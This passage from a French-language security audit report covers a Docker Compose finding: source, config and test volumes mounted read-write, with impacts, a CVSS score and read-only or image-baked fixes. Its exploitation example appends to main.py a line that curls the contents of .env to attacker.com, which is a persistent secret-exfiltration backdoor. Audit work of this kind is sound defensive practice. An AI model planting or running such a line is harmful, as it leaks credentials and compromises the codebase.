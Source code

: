 
### 4. Volumes Montés en Read-Write (Code Source) 🔴

**Fichier** : `docker-compose.app.yml:36-40`

**Problème** :
```yaml
volumes:
  - ./app:/app           # ❌ RW sur code applicatif
  - ./src:/app/src       # ❌ RW sur code source
  - ./config:/app/config # ❌ RW sur configuration
  - ./tests:/app/tests   # ❌ RW sur tests
```

**Impact** :
- ✅ Container compromis → modification code source
- ✅ Backdoor persistant dans codebase
- ✅ Exfiltration secrets depuis config/
- ✅ Injection malware dans dependencies

**Exploitation** :
```bash
# Attaquant avec accès container
docker exec knowbase-app bash
echo "import os; os.system('curl attacker.com/$(cat .env)')" >> main.py
# Backdoor persistant, même après restart
```

**CVSS Score** : 8.5 (Élevé)

**Correctif** :

**Développement** :
```yaml
# docker-compose.dev.yml (dev local uniquement)
volumes:
  - ./app:/app:ro          # Read-only
  - ./src:/app/src:ro
  - ./config:/app/config:ro
  # Sauf data/ qui peut être RW
  - ./data:/data
```

**Production** :
```yaml
# docker-compose.prod.yml
# ❌ AUCUN volume source code monté
# Code intégré dans image Docker au build
# Configuration via variables d'environnement ou secrets manager
```

---

### 5. Pas de Limitation Ressources (DoS) 🔴

**Fichier** : `docker-compose.infra.yml`, `docker-compose.app.yml`
